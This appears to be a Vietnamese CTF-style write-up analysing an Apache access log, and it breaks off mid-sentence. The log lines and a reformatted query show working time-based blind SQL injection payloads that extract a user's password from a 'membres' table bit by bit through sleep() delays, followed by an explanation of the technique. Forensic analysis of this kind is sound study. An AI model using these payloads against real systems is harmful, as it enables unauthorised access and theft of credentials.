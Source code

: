 192.168.1.23 - - [18/Jun/2015:12:13:00 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,1,1))),5,1),substring(bin(ascii(substring(password,1,1))),6,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1) HTTP/1.1" 200 1005 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:13:06 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,1,1))),7,1)),char(48),char(49)) when 1 then sleep(2) when 2 then sleep(4)  end) from membres where id=1) HTTP/1.1" 200 832 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:13:10 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,2,1))),1,1),substring(bin(ascii(substring(password,2,1))),2,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1) HTTP/1.1" 200 1005 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:13:16 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,2,1))),3,1),substring(bin(ascii(substring(password,2,1))),4,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1) HTTP/1.1" 200 1005 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:13:20 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,2,1))),5,1),substring(bin(ascii(substring(password,2,1))),6,1)),concat(char(48),char(48)),concat(char(48),char(49)),concat(char(49),char(48)),concat(char(49),char(49)))when 1 then TRUE when 2 then sleep(2) when 3 then sleep(4) when 4 then sleep(6) end) from membres where id=1) HTTP/1.1" 200 1005 "-" "-"
192.168.1.23 - - [18/Jun/2015:12:13:22 +0200] "GET /admin/?action=membres&order=ASC,(select (case field(concat(substring(bin(ascii(substring(password,2,1))),7,1)),char(48),char(49)) when 1 then sleep(2) when 2 then sleep(4)  end) from membres where id=1) HTTP/1.1" 200 832 "-" "-"
```
Đây là log traffic tới của apache server. Lấy dòng đầu làm ví dụ, ta phân tích được:

```
ASC,
(select
  (case
    field(
      concat(
        substring(bin(ascii(substring(password,1,1))),1,1),
        substring(bin(ascii(substring(password,1,1))),2,1)
      ),
      concat(char(48),char(48)),
      concat(char(48),char(49)),
      concat(char(49),char(48)),
      concat(char(49),char(49))
    )
    when 1 then TRUE
    when 2 then sleep(2)
    when 3 then sleep(4)
    when 4 then sleep(6)
  end
  )
from membres where id=1
)
```
Đây là log của một cuộc tấn công blind sql injection, attacker thực hiện nhiều câu truy vấn cách nhau bằng dấu phẩy. ASC để hiện danh sách thành viên theo thứ tự lớn đến nhỏ, không liên quan đế câu truy vấn sau. Từ đoạn select, code thực hiện việc lấy nội dung ô password trong bảng mebres có id=1; với mỗi kí tự trong ô password được đổi qua integer, rồi qua chuỗi binary. Mỗi request sẽ lần lượt lấy mỗi 2 bits kí tự của chuỗi binary và tìm vị trí của nó trong field – field(xx,’00’,’01’,’10’,’11’), case field=1 thì trả về true, nếu field=2 thì sleep(2), field=3 thì sleep(3), field=4 thì sleep(6).

Mã ASCII tốn 8 bits, nhưng thông thường chỉ cần 7 bits nên sẽ tốn 4 request cho mỗi kí tự 3×2 + 1, request thứ tư của mỗi kí tự ngắn hơn 3 cái còn lại. Giải sử:

>Attacker chỉ gửi request khi nhận response
```